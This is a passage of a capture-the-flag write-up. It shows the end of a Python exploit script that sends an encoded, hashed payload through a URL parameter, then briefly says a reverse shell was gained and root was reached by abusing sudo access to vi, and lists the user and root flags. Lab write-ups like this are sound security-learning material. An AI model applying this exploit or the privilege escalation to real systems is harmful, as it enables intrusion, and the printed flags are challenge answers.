payload = base64.b64encode(payload)
gh = md5(payload + install_date).hexdigest()

exploit = tunnel + '?ga=' + payload + '&h=' + gh

try:
    request = br.open(exploit)
except (mechanize.HTTPError, mechanize.URLError) as e:
    print e.read()
```

And It was succesfull


## Getting User.txt

Using that, I managed to get a reverse shell


And I got the flag from haris user’s home directory


User Flag - 64c315ff3dceb7d92c47f26d5246ee16

## Getting root.txt

And www-data user has sudo priviledge to run vi


It can be easily abused like following


Root Flag - 1b436b424cd0a1e1b374bea3b29d38a6

## Flags

**user.txt -** 64c315ff3dceb7d92c47f26d5246ee16

**root.txt -** 1b436b424cd0a1e1b374bea3b29d38a6
